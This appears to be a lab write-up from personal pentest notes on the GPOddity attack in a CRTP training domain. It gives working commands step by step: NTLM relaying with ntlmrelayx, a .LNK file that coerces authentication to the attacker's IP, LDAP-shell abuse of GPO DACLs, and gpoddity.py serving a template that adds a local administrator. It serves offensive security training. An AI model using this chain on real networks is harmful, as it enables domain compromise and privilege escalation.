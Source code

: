 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# GPOddity

[GPOddity](https://github.com/synacktiv/GPOddity) combines NTLM relaying with the modification of a GPO:

1. The target user has `WriteDACL` over a GPO
2. Relay credentials of the target user for modifying the path of the GP template (`gPCFileSysPath`)
3. Load a malicious template from an attacker-controlled location

<figure><img src="https://x7331.gitbook.io/notes/~gitbook/image?url=https%3A%2F%2F3960676229-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FmjLkek16kB60c2WFd5lf%252Fuploads%252F2nD7PLJ5AwP0DXZSdqZM%252Fgpoddity_attack.png%3Falt%3Dmedia%26token%3Db2130241-680a-4386-a68b-481204a9a5a0&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=996a799&#x26;sv=2" alt=""><figcaption><p>The GPOddity attack (image taken from the <a href="https://www.alteredsecurity.com/post/certified-red-team-professional-crtp">CRTP</a> course).</p></figcaption></figure>

{% tabs %}
{% tab title="Recon" %}
The target user has `WriteDACL` over a GPO:

<figure><img src="https://x7331.gitbook.io/notes/~gitbook/image?url=https%3A%2F%2F3960676229-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FmjLkek16kB60c2WFd5lf%252Fuploads%252F6A8E449roph9oZi34DP5%252Fgpoddity_bh.png%3Falt%3Dmedia%26token%3D162041f2-f745-4e22-8934-444ceadb18bb&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=7278fe38&#x26;sv=2" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```powershell
# Get GPO's details with PowerView
> Get-DomainGPO -identity "DevOps Policy"

displayname              : DevOps Policy
name                     : {0BF8D01C-1F62-4BDC-958C-57140B67D147}
cn                       : {0BF8D01C-1F62-4BDC-958C-57140B67D147}
objectguid               : fc0df125-5e26-4794-93c7-e60c6eecb75f
gpcfilesyspath           : \\dollarcorp.moneycorp.local\SysVol\dollarcorp.moneycorp.local\Policies\{0BF8D01C-1F62-4BDC-958C-57140B67D147}
distinguishedname        : CN={0BF8D01C-1F62-4BDC-958C-57140B67D147},CN=Policies,CN=System,DC=dollarcorp,DC=moneycorp,DC=local
objectcategory           : CN=Group-Policy-Container,CN=Schema,CN=Configuration,DC=moneycorp,DC=local
```
{% endcode %}
{% endtab %}

{% tab title="Relay" %}
Relay the LDAP service on the DC (`172.16.2.1`) to the attack's machine (`172.160.100.37`):

{% code overflow="wrap" %}
```bash
sudo impacket-ntlmrelayx -t ldaps://172.16.2.1 -wh 172.16.100.37 --http-port "80,8080" -i -no-smb-server
```
{% endcode %}

Create a shortcut pointing to the attacker's relay server:

{% code overflow="wrap" %}
```
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -Command "Invoke-WebRequest -Uri 'http://172.16.100.37' -UseDefaultCredentials"
```
{% endcode %}

Copy the `.LNK` file to the target share:

```sh
> xcopy .\student337.lnk \\dcorp-ci\AI
.\student337.lnk
1 File(s) copied
```

Back on the relay server:

{% code overflow="wrap" %}
```bash
[*] Servers started, waiting for connections
[*] HTTPD(80): Client requested path: /
[*] HTTPD(80): Client requested path: /
[*] HTTPD(80): Connection from 172.16.3.11 controlled, attacking target ldaps://172.16.2.1
[*] HTTPD(80): Client requested path: /
[*] HTTPD(80): Authenticating against ldaps://172.16.2.1 as DCORP/DEVOPSADMIN SUCCEED
[*] Started interactive Ldap shell via TCP on 127.0.0.1:11000 as DCORP/DEVOPSADMIN
```
{% endcode %}
{% endtab %}

{% tab title="WriteDACL" %}
Assign the `WriteDACL` permissions over the target GPO on the attacker (domain user):

```bash
$ nc 127.0.0.1 11000
Type help for list of commands

# whoami
u:dcorp\devopsadmin

# write_gpo_dacl student337 {0BF8D01C-1F62-4BDC-958C-57140B67D147}
Adding student337 to GPO with GUID {0BF8D01C-1F62-4BDC-958C-57140B67D147}
LDAP server claims to have taken the secdescriptor. Have fun
```

Alternatively, if we don't have compromised a domain user, we can add a computer object and assign the permissions to it:

{% code overflow="wrap" %}
```bash
# add_computer std337-gpattack Secretpass@123
Attempting to add a new computer with the name: std337-gpattack$
Inferred Domain DN: DC=dollarcorp,DC=moneycorp,DC=local
Inferred Domain Name: dollarcorp.moneycorp.local
New Computer DN: CN=std337-gpattack,CN=Computers,DC=dollarcorp,DC=moneycorp,DC=local
Adding new computer with username: std337-gpattack$ and password: 
Secretpass@123 result: OK

# write_gpo_dacl std337-gpattack$ {0BF8D01C-1F62-4BDC-958C-57140B67D147}
Adding std337-gpattack$ to GPO with GUID {0BF8D01C-1F62-4BDC-958C-57140B67D147}
LDAP server claims to have taken the secdescriptor. Have fun
```
{% endcode %}
{% endtab %}

{% tab title="GPOddity" %}
Execute the GPOddity attack:

{% code overflow="wrap" %}
```bash
# Create & inject a malicious template
sudo python3 gpoddity.py --gpo-id '0BF8D01C-1F62-4BDC-958C-57140B67D147' --domain 
'dollarcorp.moneycorp.local' --username 'student337' --password 'nUQfN3A8CcV7GxqT' --command 'net localgroup administrators student337 /add' --rogue-smbserver-ip '172.16.100.37' --rogue-smbserver-share 'std337-gp' --dc-ip '172.16.2.1' --smb-mode none
```
{% endcode %}

Create the share and move the malicious template to it:

```bash
# Create the share
mkdir /mnt/c/AD/Tools/std337-gp
# Move the template to the share
cp -r /mnt/c/AD/Tools/GPOddity/GPT_out/* /mnt/c/AD/Tools/std337-gp/
```

From a `SYSTEM` shell point configure the share's path and permissions:

```powershell
# Configure the share path
C:\Windows\system32>net share std337-gp=c:\AD\Tools\std337-gp
std337-gp was shared successfully.

# Provide full control to everyone
C:\Windows\system32>icacls "C:\AD\Tools\std337-gp" /grant Everyone:F /T
```

Check the policy's attribute with PowerView:

```powershell
> Get-DomainGPO -identity "DevOps Policy" | select gpcfilesyspath

gpcfilesyspath
--------------
\\172.16.100.37\std337-gp
```

When the policy refreshes:

```powershell
# Check admin access with PowerView
> Find-LocalAdminAccess
dcorp-adminsrv.dollarcorp.moneycorp.local
dcorp-ci.dollarcorp.moneycorp.local
dcorp-std337.dollarcorp.moneycorp.local
```
{% endtab %}
{% endtabs %}
